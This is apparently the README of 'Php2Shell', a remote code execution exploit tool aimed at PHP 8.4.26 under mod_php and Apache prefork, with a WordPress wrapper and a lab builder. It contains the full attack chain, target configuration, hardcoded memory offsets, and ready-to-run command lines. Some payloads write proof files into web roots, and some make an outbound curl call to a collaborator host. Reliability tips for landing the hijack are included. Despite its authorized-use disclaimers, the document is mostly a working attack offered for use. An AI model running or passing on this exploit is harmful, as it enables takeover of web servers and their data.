


# Php2Shell

One-click remote code execution exploit for **PHP 8.4.26 / mod_php (Apache 2.4.69, prefork MPM)** — the entire chain runs over plain HTTP, no local access to the target needed.

> **Authorized use only.** This tool is for security testing against systems you own or have explicit written permission to test (lab, staging, bug-bounty scope). Unauthorized use against third-party systems is illegal.

---

## Contents

| File | What it is |
|---|---|
| `php_exploit_general.py` | Core exploit engine + generic standalone exploit (fully remote, no docker) |
| `wp01_exp.py` | WordPress wrapper: auto-discovers a WP-less PHP stub on a WordPress host, then drives `php_exploit_general.py` (must sit in the same directory) |
| `lab_setup.sh` | Reproducible authorized-lab builder: `php:8.4.26-apache` targets with calibration `php.ini` + single-worker Apache config |

---

## How the chain works

All attacker traffic is plain HTTP. Four stages:

```
stage 0   HTTP worker rotation          aborts the current prefork child; Apache forks a fresh one
stage 1   Set-Cookie heap leak          -> Zend MM chunk base
stage 2   Set-Cookie libphp leak        -> libphp.so base (ZVAL_PTR_DTOR)
stage 3   upload_progress fake-ref      -> pDestructor overwritten with zif_system
          -> system("sh</tmp/sess_a")   -> command execution as www-data
```

The executed command is embedded in a 167-byte live `zend_string` — **max 14 bytes** in this payload layout. For longer commands, chain through a short trigger (`sh</out/c`, 8 bytes) or deliver an arbitrary-length script via the session-file channel (`--payload`, pure HTTP — no file-write primitive needed).

### Target requirements

```
display_errors = 1
memory_limit   = 8M          (must be smaller than the OOM field; default --huge-mb 12)
max_input_vars = 1000
session.use_cookies = 1
session.use_strict_mode = 0
session.upload_progress.enabled = 1
single-worker prefork (MaxRequestWorkers = 1)
```

`lab_setup.sh` configures all of these on both lab targets.

---

## Usage

### Generic engine — `php_exploit_general.py`

Fully remote: no docker access, no bind mounts, no local container access assumed. Runs against any reachable PHP URL (staging/production alike), like the WP wrapper.

```bash
# blind run against any reachable PHP page (no proof channel)
python3 php_exploit_general.py -u https://staging-host/index.php

# 14-byte command + local proof file (shared-FS / local targets only)
python3 php_exploit_general.py -u http://127.0.0.1:8089/index.php -c 'id>/tmp/p1' --proof-file /tmp/p1

# arbitrary-length payload via session-file injection (pure HTTP; no write primitive)
python3 php_exploit_general.py -u https://staging-host/index.php \
    --payload 'curl -k <collaborator-url>'

# arbitrary-length payload + HTTP-fetched proof (target must serve a writable path)
python3 php_exploit_general.py -u http://host/index.php \
    --payload 'id > /var/www/html/wp-content/uploads/pwn_proof.txt 2>&1' \
    --fetch /wp-content/uploads/pwn_proof.txt
```

Key flags:

| Flag | Meaning |
|---|---|
| `-u, --url` | Target PHP page (the page must execute — a 500/302 bootstrap breaks the leak shapes) |
| `-c, --cmd` | Command to execute, **max 14 bytes** |
| `--payload CMD` | Arbitrary-length command, delivered via the bug's own session-file write; executed as `sh /tmp/sess_<sid>` |
| `--payload-sid` | Session ID for the payload file (default `a` → `/tmp/sess_a`) |
| `--proof-file` | Read this **local** file after exploitation (only works with shared FS — local docker/host targets) |
| `--fetch PATH` | GET this path afterwards as proof (target must serve it) |
| `--profile` | `bookworm` (official `php:8.4.26-apache` image, default) or `lab` (Apache 2.4.68 build) |
| `--zif-offset / --dtor-offset / --htdata-offset` | Override symbol offsets for a different libphp build |
| `--offsets-file` | Read `ZIF_OFFSET=0x..` / `DTOR_OFFSET=0x..` pairs from a file (`''` disables) |
| `--huge-mb` | OOM field size; must exceed the target `memory_limit` |
| `--retries` | Attempts per leak stage (stage 3 uses retries+2) |
| `--timeout` | Per-request timeout in seconds |
| `-q` | Quiet mode |

Baked-in offsets (official image, measured): `zif_system = 0x465370`, `zval_ptr_dtor = 0x65eb60`, `htdata = 0x690D8` (chunk-relative). Lab build (`--profile lab`): `0x43A870` / `0x613C50` / `0x6E0D8`.

**Blind targets** (single PHP page, no writable/served directories — e.g. staging): execution is blind; without `--proof-file`/`--fetch` the tool prints `BLIND_EXECUTED` and exits 1. That is not a failure indicator — validate out-of-band:

```bash
python3 php_exploit_general.py -u https://staging/index.php \
    --payload 'curl -k <collaborator-url>'
# then confirm the DNS/HTTP interaction on the Collaborator side.
# Collaborator client polling can lag 1-2 minutes — poll more than once
# before concluding "no callback".
```

### WordPress — `wp01_exp.py`

```bash
# wrapper: discovers the WP-less stub, then drives the engine
python3 wp01_exp.py --url http://target/index.php \
    --cmd-payload 'id > /var/www/html/wp-content/uploads/pwn_proof.txt 2>&1' \
    --fetch /wp-content/uploads/pwn_proof.txt
```

**WP-target rules learned the hard way:**

- Never target bare `/index.php` on a WordPress install — the WP bootstrap fatals/redirects (no DB) and the leak shapes never match → `HEAP_LEAK_FAILED`. Always target a **WP-less** PHP file such as `/wp-content/index.php` (0-byte stub).
- The proof path must be **served** by the target (`wp-content/uploads/…` is served by WordPress).
- `wp01_exp.py` requires `php_exploit_general.py` in the same directory (it imports it and calls it via subprocess).

### Lab builder — `lab_setup.sh`

Creates two docker targets (mount-free proof design; only calibration configs are bind-mounted):

```bash
bash lab_setup.sh [STUB_PORT] [WP_PORT]   # defaults: 8089 8088
```

- `php2shell-stub` on `:8089` — virgin stub (`/var/www/html/i.php`, docroot chmod 777 created via docker exec; no webroot bind mount)
- `php2shell-wp` on `:8088` — WordPress 6.7.2 source mounted at `/var/www/html`, `wp-content/uploads` owned by www-data
- Both: `zz-php2shell.ini` + single-worker prefork config mounted read-only; proof files go to `/tmp` (always www-data-writable), read back via `docker exec cat`
- WP target: always probe `http://127.0.0.1:<port>/wp-content/index.php`, **not** `/index.php`

Proof readback container must match the target container (`:8088` ↔ `php2shell-wp`, `:8089` ↔ `php2shell-stub`).

---

## Proof (authorized lab runs)

Both screenshots are from the authorized lab on `redteam-srv01` (IBM Cloud VSI), targets built by `lab_setup.sh`.

**WordPress target** — WP-less stub (`:8088/wp-content/index.php`), two consecutive runs, both fired on stage-3 attempt 1; in-band `PROOF:` via the `--proof-file` channel:



**Generic target** — virgin stub (`:8089/index.php`), blind run (`-c 'id>/tmp/pp1'`, no proof channel configured → `BLIND_EXECUTED` as designed), execution confirmed by reading the proof file back from the target container:



---

## Reliability notes

- Stages 1–2 (leaks) are near-deterministic: attempt 1 in practice.
- **Stage 3 (fake-ref hijack) is probabilistic** — it lands only when the rotated worker's heap generation is in the right state. Observed ~50% per run; misses occur in streaks even on a fresh container (verified: same code, same image, virgin worker can miss; the next run on the same container fires). It is inherent to the technique.
- On a miss: **rerun** rather than raising in-run `--retries` (10 in-run attempts can still all miss on a bad worker generation). Each run is ~30 s; 2–4 runs typically convert.
- If your executed command is slow (e.g. an outbound `curl`), the 14-byte trigger blocks the single worker while it runs — keep chain commands fast or background them (`setsid … &`).
- Blind runs always end with `BLIND_EXECUTED` (exit 1) — that line says "no in-band proof channel configured", **not** "exploit failed". Validate via `docker exec <container> cat /tmp/<proof>` (lab) or the Collaborator interaction (staging).

## Environment

- Developed/validated against the official `php:8.4.26-apache` image (PHP 8.4.26 NTS, mod_php, Apache 2.4.69, Debian 13 trixie, x86_64), Apache prefork single-worker.
- Offset constants are chunk-relative / libphp-relative, so they survive ASLR — but **not** a different libphp build; pass `--zif-offset/--dtor-offset` or `--offsets-file` when retargeting a different build.

## Disclaimer

This project is published for defensive research and authorized penetration testing. The authors are not responsible for misuse. Check the laws and program policies that apply to you before running any of this.
